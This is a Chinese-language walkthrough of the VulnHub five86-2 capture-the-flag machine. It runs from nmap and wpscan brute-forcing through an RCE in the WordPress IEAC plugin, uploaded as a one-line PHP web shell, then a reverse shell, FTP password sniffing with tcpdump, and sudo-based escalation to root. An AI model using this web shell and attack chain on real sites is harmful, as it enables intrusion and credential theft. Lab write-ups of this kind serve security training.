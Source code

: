 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.lz80.com](https://www.lz80.com/21140.html)

> 靶机地址：http://www.vulnhub.com/entry/five86-2,418/ 本文涉及知识点实操练习：相关实验：VulnHub 渗透测试实战靶场 Node 1.0 （Node 1.0 是…......

靶机地址：[http://www.vulnhub.com/entry/five86-2,418/](https://www.lz80.com/go?_=25cb5d3c4faHR0cDovL3d3dy52dWxuaHViLmNvbS9lbnRyeS9maXZlODYtMiw0MTgv)

本文涉及知识点实操练习：相关实验：[VulnHub 渗透测试实战靶场 Node 1.0](https://www.lz80.com/go?_=e0b1318345aHR0cHM6Ly93d3cuaGV0aWFubGFiLmNvbS9leHBjLmRvP2VjPUVDSURkYjU4LTRiOWQtNDI3Yi1iN2IzLTgzODJjN2UwYTdmNSZhbXA7cGtfY2FtcGFpZ249ZnJlZWJ1Zi13ZW1lZGlh) （Node 1.0 是一个难度为中等的 Boot2root/CTF 挑战，靶场环境最初由 HackTheBox 创建，实验目的是获取两个 flag）

• 对 WordPress 网站的渗透

– [wpscan](https://www.lz80.com/go?_=9fd3cd3ed6aHR0cHM6Ly93d3cuZnJlZWJ1Zi5jb20vYXJ0aWNsZXMvbmV0d29yay9zZWN0b29sLzE3NDY2My5odG1s)

• WordPress 中 IEAC 插件的 RCE 漏洞

– [WordPress 插件 IEAC 漏洞分析及组合利用尝试](https://www.lz80.com/go?_=e36c6d7c5caHR0cHM6Ly93d3cuZnJlZWJ1Zi5jb20vYXJ0aWNsZXMvbmV0d29yay92dWxzLzIwNTczNS5odG1s)

• tcpdump 的使用

– [tcpdump 使用详解](https://www.lz80.com/go?_=09087b32a7aHR0cHM6Ly93d3cuY25ibG9ncy5jb20vbHZkb25namllL3AvMTA5MTE1NjQuaHRtbA==)

nmap -sP 参数使用 ping 扫描局域网主机，目的地址为 192.168.56.6

![](https://image.3001.net/images/20210122/1611302751_600a875facedc48d7ea66.jpg!small)

nmap -A 192.168.56.6 -p- 可以看到目标主机的一些信息，-A 是进行操作系统指纹和版本检测，-p- 是全端口

![](https://image.3001.net/images/20210122/1611302753_600a8761dc5ffa96ba1f3.jpg!small)

开放了 22、21、80 端口，并且 80 端口是 WordPress 5.1.4 的 CMS

这里最好提前在 / etc/hosts 中加上 192.168.56.6 five86-2 这一条，因为后面访问 wordpress 的后台 wp-admin 时会跳转到到这个域名

![](https://image.3001.net/images/20210122/1611302754_600a8762e1daf5fdbc6e7.jpg!small)

在 searchsploit 和 Google 并没有发现 WordPress 5.1.4 的漏洞，可以用 wpscan 扫描一下这个 URL。wpscan 是一款针对 WordPress 的扫描器，详细的使用可以参考 [WPScan 使用完整攻略](https://www.lz80.com/go?_=9fd3cd3ed6aHR0cHM6Ly93d3cuZnJlZWJ1Zi5jb20vYXJ0aWNsZXMvbmV0d29yay9zZWN0b29sLzE3NDY2My5odG1s)。

默认扫描会返回目标站点的中间件、XML-RPC、readme 文件、上传路径、WP-Corn、版本、主题、所有的插件和备份文件。

命令 wpscan -u [http://192.168.56.6/](https://www.lz80.com/go?_=3b0ec1ad77aHR0cDovLzE5Mi4xNjguNTYuNi8=)

![](https://image.3001.net/images/20210122/1611302755_600a8763e59d69e8f01d2.jpg!small)

这里并没有发现很有用的信息，考虑去枚举用户名，然后配合 rockyou.txt 去爆破密码。爆破用户名命令 wpscan –url [http://192.168.56.6/](https://www.lz80.com/go?_=3b0ec1ad77aHR0cDovLzE5Mi4xNjguNTYuNi8=)–enumerate u，发现了 5 个用户

peteradminbarneygillianstephen

![](https://image.3001.net/images/20210122/1611302757_600a8765d9a1f8362ff32.jpg!small)

爆破密码命令 wpscan –url [http://192.168.56.6/](https://www.lz80.com/go?_=3b0ec1ad77aHR0cDovLzE5Mi4xNjguNTYuNi8=)-U user.txt -P /usr/share/wordlists/rockyou.txt

![](https://image.3001.net/images/20210122/1611302758_600a8766f1d086f330209.png!small)

最终爆破出来两个结果

Username: barney, Password: spooky1Username: stephen, Password: apollo1

使用 barney 登录后台 [http://five86-2/wp-admin/](https://www.lz80.com/go?_=69c853d3cdaHR0cDovL2ZpdmU4Ni0yL3dwLWFkbWluLw==)，可以看到这个站点安装了三个插件，但是只激活了一个 Insert or Embed Articulate Content into WordPress Trial（IEAC）

Akismet Anti-Spam Version 4.1.1Hello Dolly Version 1.7.1IEAC Version 4.2995

![](https://image.3001.net/images/20210122/1611302759_600a8767b97531825d94d.png!small)

在谷歌上搜索一下，不难搜到这个插件的 RCE：[WordPress 插件 IEAC 漏洞分析及组合利用尝试](https://www.lz80.com/go?_=e36c6d7c5caHR0cHM6Ly93d3cuZnJlZWJ1Zi5jb20vYXJ0aWNsZXMvbmV0d29yay92dWxzLzIwNTczNS5odG1s)，在 [exploit-db](https://www.lz80.com/go?_=075cccb5d7aHR0cHM6Ly93d3cuZXhwbG9pdC1kYi5jb20vZXhwbG9pdHMvNDY5ODE=) 上也有

先生成 poc.zip，

echo “hello” > index.htmlecho “<?php echo system($_GET[‘cmd’]); ?>” > index.phpzip poc.zip index.html index.php

然后登录 wordpress 后台，选择新建文章

![](https://image.3001.net/images/20210122/1611302760_600a8768b61913b354cb7.png!small)

选择添加区块

![](https://image.3001.net/images/20210122/1611302761_600a87695af0560840529.png!small)

选择 E-Learning

![](https://image.3001.net/images/20210122/1611302762_600a876a20873b82d0667.png!small)

上传 poc.zip

![](https://image.3001.net/images/20210122/1611302762_600a876aa6219c4eef65e.png!small)

选择 Insert As iFrame

![](https://image.3001.net/images/20210122/1611302763_600a876b3a29ec81a1cf1.png!small)

可以看到上传的位置，也就是说上次的 shell 位置为 [http://192.168.56.6/wp-content/uploads/articulate_uploads/poc/index.php](https://www.lz80.com/go?_=97164f8c21aHR0cDovLzE5Mi4xNjguNTYuNi93cC1jb250ZW50L3VwbG9hZHMvYXJ0aWN1bGF0ZV91cGxvYWRzL3BvYy9pbmRleC5waHA=)

![](https://image.3001.net/images/20210122/1611302763_600a876bd8c5dd8e5d3de.png!small)

测试 shell[http://192.168.56.6/wp-content/uploads/articulate_uploads/poc/index.php?cmd=whoami](https://www.lz80.com/go?_=bacc91f2f5aHR0cDovLzE5Mi4xNjguNTYuNi93cC1jb250ZW50L3VwbG9hZHMvYXJ0aWN1bGF0ZV91cGxvYWRzL3BvYy9pbmRleC5waHA/Y21kPXdob2FtaQ==) 这就拿到了 shell

![](https://image.3001.net/images/20210122/1611302764_600a876c6624eb7f791e5.png!small)

使用 php-reverse-shell 去反弹 shell，访问 [http://192.168.56.6/wp-content/uploads/articulate_uploads/poc4/shell.php](https://www.lz80.com/go?_=2b46dc2f71aHR0cDovLzE5Mi4xNjguNTYuNi93cC1jb250ZW50L3VwbG9hZHMvYXJ0aWN1bGF0ZV91cGxvYWRzL3BvYzQvc2hlbGwucGhw) 就可以看到反弹的 shell，还不是 TTY，接下来就想办法变成 TTY 吧

![](https://image.3001.net/images/20210122/1611302765_600a876d1e377c41b7fd3.png!small)

![](https://image.3001.net/images/20210122/1611302765_600a876db7c6ca7c9de17.png!small)

ls /home 发现有 8 个目录，刚刚爆破来两个密码，一个登陆了后台，还有一个没有测试，并且两个都在这 8 个用户里面。可以先试试 su barney，密码填 spooky1，发现失败，再试试 stephen，密码 apollo1。这里的 shell 不知道为什么没有前面的 $ 了，但是可以用

![](https://image.3001.net/images/20210122/1611302766_600a876e6b3b4125fd2bc.png!small)

实际上，这里的 www-data 可以直接使用 python3 -c ‘import pty;pty.spawn(“/bin/bash”)’变成 TTY，这样可能更方便一些

![](https://image.3001.net/images/20210122/1611302767_600a876f24b0f68de1159.png!small)

然后再 sudo -l 发现需要密码，并且不是 spooky1，所以还是 su stephen 吧，发现 stephen 在一个名为 pcap 的用户组中（pcap 不是流量包吗 ^_^）

![](https://image.3001.net/images/20210122/1611302767_600a876fa87862bc74a71.png!small)

然后 sudo -l 发现无法执行 sudo

![](https://image.3001.net/images/20210122/1611302768_600a87704d1ee111f950e.png!small)

回到 pcap 那里，流量包是不是意味着流量分析，尝试 ifconfig 发现没有这个命令，但是可以使用 ip add，发现目前运行着几个网络接口

![](https://image.3001.net/images/20210122/1611302768_600a8770dbf89a0de4999.png!small)

这里的最后一个接口好像是动态的，每次都不一样，可以使用 tcpdump -D 列出可用于抓包的接口。这里选择把后面两个抓下来，因为不怎么常见。抓包命令为 timeout 120 tcpdump -w 1.pcap -i veth2c37c59，其中 timeout 120 是指 2 分钟，-w 是将结果输出到文件，-i 是指定监听端口

![](https://image.3001.net/images/20210122/1611302769_600a8771bd0e7170f2cd0.png!small)

![](https://image.3001.net/images/20210122/1611302770_600a877266240899f86ae.png!small)

可以去分析一下这两个流量包，命令 tcpdump -r 1.pcap，这里 - r 是从给定的流量包读取数据，不难发现 paul 用户 FTP 的密码 esomepasswford。后面 2.pcap 与 1.pcap 内容相同。

![](https://image.3001.net/images/20210122/1611302771_600a8773560385e6b6e73.png!small)

接着 su paul，用上面的那个密码发现可以登陆。尝试 sudo -l 发现 stephen 可以使用 peter 的 service 命令

![](https://image.3001.net/images/20210122/1611302772_600a87749d8c3d7dd32ac.png!small)

那不就可以直接执行 peter 的 / bin/bash 了吗。命令 sudo -u peter service /bin/bash。这里要注意一下目录的问题，用相对目录找到 / bin/bash 的位置

![](https://image.3001.net/images/20210122/1611302773_600a8775440eab506c134.png!small)

获取 peter 的权限后，还是先 sudo -l，发现他可以运行 root 用户的 passwd 命令，这我直接修改 root 的密码不就获取 root 权限了吗

![](https://image.3001.net/images/20210122/1611302773_600a8775d97b87e8ae0e6.png!small)

是时候表演真正的技术了。sudo -u root passwd root(强迫症，全文一致)，用 sudo passwd root 一样的

![](https://image.3001.net/images/20210122/1611302774_600a877671b3dcadf5c77.png!small)

找到 flag

![](https://image.3001.net/images/20210122/1611302775_600a87772d1e4b20f24eb.png!small)